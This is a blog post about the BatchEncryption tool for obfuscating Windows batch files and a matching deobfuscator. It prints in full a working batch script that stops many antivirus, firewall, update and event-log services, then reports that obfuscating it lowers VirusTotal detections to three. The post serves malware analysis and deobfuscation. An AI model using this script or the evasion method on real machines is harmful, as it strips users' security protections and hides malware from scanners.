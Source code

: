 +++
title = "Exploring the BatchEncryption tool (and its deobfuscator) by gwsbhqt@163.com "
date = 2024-03-11T20:03:02+02:00
draft = true
tags = ["BatchEncryption","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++

## What is the BatchEncryption tool
The BatchEncryption tool is a tool used for obfuscating batch files. It is rather one of the most uncommon ones since it combines known and custom environment variable encodings to obfuscate the script. The way it works is it sets a randomly generated dictionary into a custom envar which is just a single quote ("'"). It then encodes it with existing environment variable substrings and then takes the remainder of the command using substrings of the custom environment variable declared previously.

The use of this tool was seen back in 2017 in the *Jawlan and Suriya.doc* (SHA-256: 761483906b45fad51f3c7ab66b1534dee137e93a52816aa270bc97249acb56d0) and has almost unknown at the time, with only 3 google search results. Now it has started to pop up more (mainly in .cn forums).

An example of a batch file obfuscated with BatchEncryption can be seen below:  
![example](/posts/BatchEncryption/example.png)


The nice thing about this tool is that still in this day, it manages to get low AV detection in VT. Let's take a .bat sample that disables multiple different AV engines:
```bat
set ii=ne
set ywe=st
set ury=t
set iej=op
set jt53=Syma
set o6t=nor
set lyd2=fee
set h3d=ton
set gf45=ntec
set own5=McA
net stop "Security Center" /y
net stop "Automatic Updates" /y
net stop "Symantec Core LC" /y
net stop "SAVScan" /y
net stop "norton AntiVirus Firewall Monitor Service" /y
net stop "norton AntiVirus Auto-Protect Service" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "McAfee Spamkiller Server" /y
net stop "McAfee Personal Firewall Service" /y
net stop "McAfee SecurityCenter Update Manager" /y
net stop "Symantec SPBBCSvc" /y
cls
net stop "Ahnlab Task Scheduler" /y
net stop navapsvc /y
net stop "Sygate Personal Firewall Pro" /y
net stop vrmonsvc /y
net stop MonSvcNT /y
net stop SAVScan /y
net stop NProtectService /y
net stop ccSetMGR /y
net stop ccEvtMGR /y
net stop srservice /y
net stop "Symantec Network Drivers Service" /y
net stop "norton Unerase Protection" /y
net stop MskService /y
net stop MpfService /y
net stop mcupdmgr.exe /y
net stop "McAfeeAntiSpyware" /y
net stop helpsvc /y
net stop ERSvc /y
net stop "*norton*" /y
net stop "*Symantec*" /y
net stop "*McAfee*" /y
cls
net stop ccPwdSvc /y
net stop "Symantec Core LC" /y
net stop navapsvc /y
net stop "Serv-U" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "Symantec AntiVirus Client" /y
net stop "norton AntiVirus Server" /y
net stop "NAV Alert" /y
net stop "Nav Auto-Protect" /y
cls
net stop "McShield" /y
net stop "DefWatch" /y
net stop eventlog /y
net stop InoRPC /y
net stop InoRT /y
net stop InoTask /y
cls
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "norton AntiVirus Corporate Edition" /y
net stop "ViRobot Professional Monitoring" /y
net stop "PC-cillin Personal Firewall" /y
net stop "Trend Micro Proxy Service" /y
net stop "Trend NT Realtime Service" /y
net stop "McAfee.com McShield" /y
net stop "McAfee.com VirusScan Online Realtime Engine" /y
net stop "SyGateService" /y
net stop "Sygate Personal Firewall Pro" /y
cls
net stop "Sophos Anti-Virus" /y
net stop "Sophos Anti-Virus Network" /y
net stop "eTrust Antivirus Job Server" /y
net stop "eTrust Antivirus Realtime Server" /y
net stop "Sygate Personal Firewall Pro" /y
net stop "eTrust Antivirus RPC Server" /y
cls
net stop netsvcs
net stop spoolnt
```

The VT result of this is the following:  
![example](/posts/BatchEncryption/VT_plain.png)
(I got to admin I was expecting more).

Now let's use the BatchEncryption tool to obfuscate our sample and load it again:
![example](/posts/BatchEncryption/obfuscated_sample.png)

In just a text editor we can't really see what's going on because of the encoding used, but if we load it for example in cyberchef, it gets converted to utf8 and thus we can see readable chars. Anyways, we can see that indeed a lot of stuff is going on. Custom, existing envars, caret symbol for extra obfuscation etc. We also notice a header on top, which is the author of the program (gwsbhqt@163.com). Let's load it to VT and watch what happens:  
![example](/posts/BatchEncryption/VT_obfuscated.png)

We successfully reduced our results to only 3! For any of you wondering what would happen if we had removed the header of the author and load it again, it would give the same results. 

Let's now see how we can deobfuscate samples obfuscated with this technique.

## Batch-Encryption-DeCoder
Luckily for us, there is already a tool for this purpose, which can be found here:
- https://github.com/cnHopeStudio/Batch-Encryption-DeCoder

We need to build this tool to get the final executable, which when run, gives us the original batch file: 

![example](/posts/BatchEncryption/using_the_deobfuscator.png)


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation-wp.pdf">blackhat: <i>Exploring the Depths
of Cmd.exe Obfuscation and Detection Techniques</i></a></li>
        <li> [2] <a href="https://blog.csdn.net/Hunter98234/article/details/108672926">Amit: <i>Recipient batch processing documents confused by BatchEncryption (version 201610)</i></a></li>
        <li> [3] <a href="http://www.bathome.net/thread-42106-1-2.html">gwsbhqt: <i>[Original Tool][201610]BatchEncryption-BatchEncrying Encryption</i></a></li>
    </ul>
</blockquote>